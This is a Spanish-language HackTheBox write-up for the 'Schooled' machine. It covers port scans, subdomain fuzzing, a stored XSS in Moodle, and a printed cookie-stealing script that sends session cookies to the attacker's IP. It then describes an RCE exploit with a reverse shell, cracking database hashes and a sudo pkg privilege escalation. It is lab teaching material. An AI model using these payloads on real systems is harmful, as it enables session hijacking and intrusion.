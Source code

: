 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga util que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133932400-60dcfc4d-9b54-4d9d-9f6b-c139b2c4c53c.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la maquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la version de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenia dos puertos abiertos, el primero era de servicio `ssh` y el otro era un servidor web, poco podia hacer en el primero por lo que recurri a ver que habia en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una pagina de colegio, segui investigandola un poco mas y encontre lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atencion, pense que se podria estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola `IP`, para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volvi a acceder a la web pero no habia nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corria algun `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontre uno que me llamo la atencion.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la pagina me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenia un boton que ponia `Log In`, dandole click me redirigio a una pagina de inicio de sesion.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenia credenciales por lo que poco podia hacer, pero me podia registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habian, `matematicas` era la unica que tenia un usuario llamado `Manuel Philips`.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario.

![Sin título (4) (1)](https://user-images.githubusercontent.com/69093629/133931890-edc2a9ae-3ac4-4e6e-a0a9-0caf666843f0.png)

Lo que mas me llamo la atencion es que pone que verificara a todos los usuarios, mirando un poco mas la pagina encontre este `buffer` que al parecer me permitia hablar con `Manuel Philips`, Intente ver si era vulnearable a `XSS`.

![Sin título (1) (2) (1)](https://user-images.githubusercontent.com/69093629/133931959-b6273540-4006-4950-8f7f-042e62dc398f.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabia que era vulnerable a `XSS` me acorde del mensaje que decia que se verificarian todos los usuarios, pense en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesion del usuario privilgiado, para ello use la siguiente sintaxis en `js`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abri un servidor por `python` y recibi mi `cookie` de sesion por `GET` mas otras que no eran mias. 

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentique con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindandole la `cookie` de sesion del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la maquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquina encontré un archivo llamado `config.php` que tenia credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habian y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeracion de la base de datos `moodle` encontré una tabla en especial llamada `mdl_user`, enumerandola encontré distintas columnas, pero me llamaron la atencion en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidi crackear los `hashes` con `john` en local y consegui crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la maquina tenia `SSH` abierto probe a autenticarme con estas credenciales y accedi, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podia ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigi a [gtfobins](https://gtfobins.github.io) y encontré una carga util que me permitia escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la maquina victima no tenia `fpm` instalado, para ello lo hice en mi maquina y lo transferi a la maquina victima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)




































